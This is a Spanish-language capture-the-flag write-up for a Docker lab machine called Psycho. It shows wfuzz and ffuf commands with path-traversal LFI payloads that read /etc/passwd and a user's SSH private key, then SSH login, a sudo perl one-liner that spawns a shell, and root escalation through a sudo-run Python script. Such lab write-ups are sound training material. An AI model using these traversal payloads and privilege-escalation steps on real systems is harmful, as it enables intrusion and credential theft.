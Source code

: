 # Máquina Psycho - Writeup

La máquina Psycho es un entorno Docker que expone un servidor HTTP en el puerto 80 y un servicio SSH en el puerto 22. La imagen del servidor HTTP contiene datos ocultos protegidos con contraseña, que intentamos extraer usando herramientas de esteganografía como stegseek, sin éxito, incluso con el diccionario rockyou.

El objetivo principal de esta máquina es explotar una vulnerabilidad **LFI (Local File Inclusion)** para acceder a archivos sensibles, y luego escalar privilegios mediante un script Python ejecutable con sudo.

## Enumeración

Comenzamos haciendo un escaneo de puertos, donde encontramos el puerto 80 con un servidor HTTP y el puerto 22 abierto para SSH. Descargamos la imagen del servidor HTTP para su análisis.

Aunque la imagen contiene datos ocultos con contraseña, no logramos extraerlos con stegseek ni con ataques por diccionario con rockyou.

## Identificación de LFI

Para identificar la vulnerabilidad LFI usamos la herramienta **wfuzz** con el siguiente comando:

```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd"
```

Esto nos permitió confirmar que el parámetro `vulnerables` nos daba acceso al archivo `/etc/passwd`. Al revisar este archivo vimos que existían tres usuarios principales:
- root
- vaxei  
- luisillo

## Fuzzing para encontrar archivos en home

Para descubrir qué archivos podíamos leer dentro de los directorios home de los usuarios, realizamos fuzzing con **ffuf**:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/FUZZ" -mc all -fc 404
```

Los resultados fueron muy extensos, así que filtramos por tamaño y creamos un diccionario personalizado llamado `lfi-pysco.txt` para afinar la búsqueda:

```bash
ffuf -w lfi-pysco.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/vaxei/FUZZ" -mc all -fc 404 -fs 2582
```

Así encontramos dos archivos importantes en el directorio home del usuario vaxei:
- `.ssh/id_rsa.pub`
- `.ssh/id_rsa`

El archivo `.ssh/id_rsa` es la clave privada SSH, que nos permitiría conectarnos al servidor como el usuario vaxei.

## Uso de la clave privada para acceder vía SSH

La clave privada encontrada estaba en un formato moderno OpenSSH que no podíamos usar directamente. Por lo tanto, tuvimos que extraer el contenido base64, eliminar saltos de línea y espacios, y formatearlo con 64 caracteres por línea usando:

```bash
cat ~/.ssh/id_rsa_exfiltrada | tr -d ' \n' | fold -w64
```

Después, añadimos las cabeceras correctas:

```
-----BEGIN OPENSSH PRIVATE KEY-----
[contenido base64]
-----END OPENSSH PRIVATE KEY-----
```

Guardamos el archivo como `id_rsa_fixed` y le dimos los permisos adecuados para poder usarlo con ssh.

Luego intentamos conectarnos con:

```bash
ssh -i ~/.ssh/id_rsa_fixed vaxei@172.17.0.2
```

Y logramos acceso como el usuario **vaxei**.

## Escalada de privilegios con sudo

Ya dentro, ejecutamos `sudo -l` para ver qué comandos podíamos ejecutar como sudo sin contraseña. 

<img width="1039" height="100" alt="Pasted image 20250619005332" src="https://github.com/user-attachments/assets/78a0f32b-8df5-4310-883b-51c60344d10f" />


El resultado nos indicó que podíamos ejecutar un shell como el usuario luisillo mediante:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```

Esto nos permitió cambiar al usuario **luisillo**.

## Intentos de obtener root

En el home de luisillo no había nada útil, y los intentos de usar las claves o códigos encontrados no funcionaron para obtener acceso root directamente.

Sin embargo, volvimos a ejecutar `sudo -l` y vimos que podíamos ejecutar el script Python `/opt/paw.py` como root.

Al ejecutar el script, este daba errores, pero descubrimos que podíamos crear un script Python para llamar a un subprocess que ejecutara un shell con privilegios elevados.

Finalmente, ejecutando:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

el script llamaba a `/bin/bash -p`, dándonos una shell con permisos **root**.

<img width="587" height="270" alt="Pasted image 20250619012535" src="https://github.com/user-attachments/assets/6cd84d90-dca9-4c6d-bb0a-3221b4d0c88c" />


## Flags

- El usuario **vaxei** se obtuvo usando la clave RSA privada filtrada y formateada.
- La flag **root** se consiguió accediendo a la shell con permisos root tras la ejecución del script Python con sudo.


